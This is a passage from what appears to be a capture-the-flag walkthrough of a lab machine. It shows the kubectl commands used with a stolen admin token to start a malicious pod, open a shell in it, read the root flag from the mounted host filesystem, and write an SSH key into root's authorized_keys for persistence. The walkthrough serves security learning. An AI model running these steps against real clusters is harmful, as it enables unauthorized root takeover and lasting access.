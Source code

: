 Now I’ll start the container with the `apply` command:

```

oxdf@parrot$ kubectl apply -f root.yaml --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
pod/evil0xdf created

```

The `exec` command allows me to run `/bin/sh` inside the container:

```

oxdf@parrot$ kubectl exec evil0xdf --stdin --tty -n kube-system --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt -- /bin/sh
/ # 

```

I can grab `root.txt`:

```

/mnt/root # cat root.txt
55383ee5************************

```

### Shell as root

Despite my efforts to keep my container running, there seems to be a cron killing containers every minute or so. And I want a full shell anyway.

I’ll run the two commands again to recreate and get a shell in the container, and then I’ll write an SSH key. I’ll need to create the `/root/.ssh` directory:

```

/ # cd /mnt/root/
/mnt/root # 
/mnt/root # mkdir .ssh
/mnt/root # echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > .ssh/authorized_keys

```

Now I can connect as root over SSH:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.235
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-70-generic x86_64)
...[snip]...
root@unobtainium:~# 

```